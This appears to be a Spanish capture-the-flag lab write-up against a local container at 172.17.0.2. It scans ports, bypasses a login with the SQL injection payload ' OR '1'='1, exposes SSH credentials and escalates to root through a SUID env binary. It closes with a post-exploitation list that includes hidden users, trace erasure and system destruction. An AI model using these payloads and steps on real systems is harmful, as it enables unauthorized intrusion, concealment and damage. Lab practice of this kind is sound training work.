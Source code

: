 # Informe de Enumeración y Escalada de Privilegios

## 1. Comprobar Conexión

```bash
ping 172.17.0.2
```

---

## 2. Escaneo de Puertos Abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

| Opción           | Descripción                                             |
|------------------|---------------------------------------------------------|
| `-p-`            | Escanea todos los puertos TCP (1-65535).                |
| `--open`         | Muestra solo los puertos abiertos.                      |
| `-sS`            | Escaneo SYN (stealth), más discreto.                   |
| `--min-rate 5000`| Envía al menos 5000 paquetes por segundo.              |
| `-vvv`           | Muestra detalles extensos del escaneo.                 |
| `-n`             | No resuelve nombres DNS (más rápido).                  |
| `-Pn`            | Omite el ping inicial (útil si ICMP está bloqueado).   |

✅ **Puertos abiertos**: 22 (SSH) y 80 (HTTP)

---

## 3. Detección de Versiones de Servicios

```bash
nmap -p22,80 -sCV 172.17.0.2
```

| Opción  | Descripción                                                   |
|---------|---------------------------------------------------------------|
| `-p22,80` | Escanea puertos específicos (SSH y HTTP).                    |
| `-sC`   | Ejecuta scripts por defecto (detección de servicios, banners).|
| `-sV`   | Intenta identificar versiones de los servicios.               |

**Resultados:**

- `22/tcp open ssh` → OpenSSH 8.9p1 Ubuntu 3ubuntu0.6  
- `80/tcp open http` → Apache httpd 2.4.52 (Ubuntu)

---

## 4. Prueba de Credenciales Comunes

```
admin:admin  
user:password  
root:root  
root:toor  
```

❌ **Ninguna credencial fue válida.**

---

## 5. Prueba de Inyección SQL

Al ingresar `' OR '1'='1` en el formulario de login, se accedió al sistema.

✅ **Acceso exitoso. Se obtuvieron credenciales:**

```
Usuario: Dylan  
Contraseña: KJSDFG789FGSDF78  
```

---

## 6. Acceso SSH

> **Importante**: el nombre de usuario debe ir en minúsculas.

```bash
ssh dylan@172.17.0.2
```

✅ **Acceso SSH exitoso.**

---

## 7. Búsqueda de Archivos con Permisos SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

| Opción         | Descripción                                       |
|----------------|---------------------------------------------------|
| `/`            | Búsqueda desde la raíz del sistema.               |
| `-perm -4000`  | Busca archivos con el bit SUID activado.          |
| `-type f`      | Solo archivos.                                    |
| `2>/dev/null`  | Suprime mensajes de error.                        |

**Resultados relevantes:**

```bash
/usr/bin/env
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
...
```

🔍 Archivos como `/usr/bin/env` pueden ser aprovechados para escalar privilegios.

| Binario                                | Riesgo / Uso potencial                        | ¿Explotable? |
|----------------------------------------|-----------------------------------------------|--------------|
| `/usr/bin/passwd`                      | Cambia contraseñas.                           | 🔒 No         |
| `/usr/bin/chsh`, `/usr/bin/chfn`      | Cambia shell o info del usuario.              | 🔒 No         |
| `/usr/bin/su`                          | Requiere contraseña.                          | 🔒 No         |
| `/usr/bin/env`                         | Ejecuta comandos con entorno limpio.          | ✅ ¡Sí!       |

---

## 8. Escalada de Privilegios con `env`

```bash
/usr/bin/env /bin/sh -p
```

| Parte            | Explicación                                               |
|------------------|-----------------------------------------------------------|
| `/usr/bin/env`   | Ejecuta un programa con un entorno controlado.           |
| `/bin/sh`        | Shell estándar.                                          |
| `-p`             | Conserva los privilegios del ejecutable SUID.            |

✅ **Se obtiene una shell como root.**

---

## 9. Post-explotación

Una vez con acceso como root, se pueden realizar las siguientes acciones:

- ✅ Mantener el acceso (persistencia)  
- 👤 Crear un usuario oculto  
- 🔐 Añadir una clave pública SSH  
- 📦 Exfiltración de información  
- 🌐 Exploración de la red interna  
- 🔀 Pivoting hacia otras máquinas  
- 🧹 Eliminación de huellas  
- 💣 Destrucción del sistema (opcional y maliciosa)
```
